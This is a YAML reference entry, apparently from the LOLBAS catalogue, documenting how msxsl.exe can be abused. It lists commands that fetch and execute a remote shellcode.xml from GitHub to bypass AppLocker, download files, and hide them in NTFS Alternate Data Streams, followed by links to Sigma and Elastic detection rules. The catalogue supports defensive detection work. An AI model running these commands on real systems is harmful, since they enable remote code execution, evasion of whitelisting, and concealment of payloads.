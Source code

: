 ```yaml
---
Name: msxsl.exe
Description: Command line utility used to perform XSL transformations.
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: msxsl.exe customers.xml script.xsl
    Description: Run COM Scriptlet code within the script.xsl file (local).
    Usecase: Local execution of script stored in XSL file.
    Category: Execute
    Privileges: User
    MitreID: T1220
    OperatingSystem: Windows
  - Command: msxsl.exe customers.xml script.xsl
    Description: Run COM Scriptlet code within the script.xsl file (local).
    Usecase: Local execution of script stored in XSL file.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1220
    OperatingSystem: Windows
  - Command: msxsl.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml
    Description: Run COM Scriptlet code within the shellcode.xml(xsl) file (remote).
    Usecase: Local execution of remote script stored in XSL script stored as an XML file.
    Category: Execute
    Privileges: User
    MitreID: T1220
    OperatingSystem: Windows
  - Command: msxsl.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml
    Description: Run COM Scriptlet code within the shellcode.xml(xsl) file (remote).
    Usecase: Local execution of remote script stored in XSL script stored as an XML file.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1220
    OperatingSystem: Windows
  - Command: msxsl.exe https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/calc.xml https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/transform.xsl -o <filename>
    Description: Using remote XML and XSL files, save the transformed XML file to disk.
    Usecase: Download a file from the internet and save it to disk.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
  - Command: msxsl.exe https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/calc.xml https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/transform.xsl -o <filename>:ads-name
    Description: Using remote XML and XSL files, save the transformed XML file to an Alternate Data Stream (ADS).
    Usecase: Download a file from the internet and save it to an NTFS Alternate Data Stream.
    Category: ADS
    Privileges: User
    MitreID: T1564
    OperatingSystem: Windows
Full_Path:
  - Path: no default
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/ff0f1a0222b5100120ae3e43df18593f904c69c0/rules/windows/process_creation/win_xsl_script_processing.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/cc241c0b5ec590d76cb88ec638d3cc37f68b5d50/rules/windows/defense_evasion_msxsl_beacon.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_msxsl_network.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
Resources:
  - Link: https://twitter.com/subTee/status/877616321747271680
  - Link: https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker
  - Link: https://github.com/RonnieSalomonsen/Use-msxsl-to-download-file
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Ronnie Salomonsen
    Handle: '@r0ns3n'
---
```

